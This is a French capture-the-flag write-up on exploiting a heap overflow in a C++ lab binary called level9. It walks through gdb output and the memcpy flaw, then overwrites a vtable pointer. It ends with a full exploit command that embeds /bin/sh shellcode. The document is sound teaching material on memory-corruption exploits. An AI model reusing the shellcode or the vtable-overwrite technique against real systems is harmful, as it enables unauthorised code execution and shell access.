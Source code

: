 ## Level9

#### Déroulement du programme:

On a une classe `N`, qui contient quelques fonctions, un entier et un pointeur vers une chaîne de caractères.  Le fonction `N::setAnnotation(char *s)` prend une chaîne en paramètre et la `memcpy` dans la string de son instance.

##### `main()`:

Le main fait un check du nombre d'arguments, et exit si aucun n'est présent. Deux instance de `N` y sont crées, toutes deux avec `new`.

Ensuite, `N::setAnnotation()` est appelé sur la deuxième instance.

##### `N::setAnnotation()`:

```c++

void setAnnotation(char *str) {
    memcpy(annotation, str, strlen(str));
}
```

Cette fonction copie la string passe en paramètre dans la str de l'instance. On voit déjà une faille ici, `memcpy` peut overflow.   

##### `main()`:

Retour a `main`. Sur `gdb`, on voit un jeu de pointeurs jusqu’à un `call %edx` .

Au moment du `call %edx`, on voit que c'est l'`operator+` de la deuxième instance de `N` qui est appelle, avec la première en paramètre:

```asm
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
=> 0x0804867c <+136>:	mov    0x10(%esp),%eax 
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx; (note: segfault ici.)
	;$edx : 0x804873a <_ZN1NplERS_>:	0x8be58955  (soit N::operator+(N&)) 
   0x08048684 <+144>:	mov    0x14(%esp),%eax 
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   ;L'autre instance est mise en parametre.
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
```

Après le call a `N::setAnnotation()`, avec `./level9 AAAA`:

```
(gdb) x $eax
0x804a00c:	0x41414141
```

On a l'adresse de notre buffer: `0x804a00c`

Avec un pattern-generator, on peut se convaincre que le programme segfault a partir de **108** **caractères**. 

Après les 108 octets, on peut voir l'adresse sur laquelle le call se fera plus tard:

```
(gdb) x $eax
0x804a00c:	0x42424242
(gdb) x $eax + 108
0x804a078:	0x08048848
(gdb) x 0x08048848
0x8048848 <_ZTV1N+8>:	0x0804873a
(gdb) info symbol 0x804873a
N::operator+(N&) in section .text of /home/user/level9/level9
```

*On note bien qu'il faut déréférencer l'adresse pour accéder a la fonction* 

C'est donc très simple d'imaginer comment ré-écrire une valeur de notre choix a la place.

#### Objectif:

On va faire overflow `memcpy`, et écrire l'adresse de l'adresse d'un shell code a exécuter. On aura donc:

```
[[ 4  ][           28            ][               76                ][ 4  ]]
[[addr][.........shellcode.......][.............padding.............][addr]]
  ^^^^ Adresse du shellcode                         Adresse du buffer ^^^^
       (0x804a00c + 4)                              (0x804a00c)
```

Ce qui nous donne :

`./level9 $(python -c 'print("\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "\x90" * 76 + "\x0c\xa0\x04\x08")')`



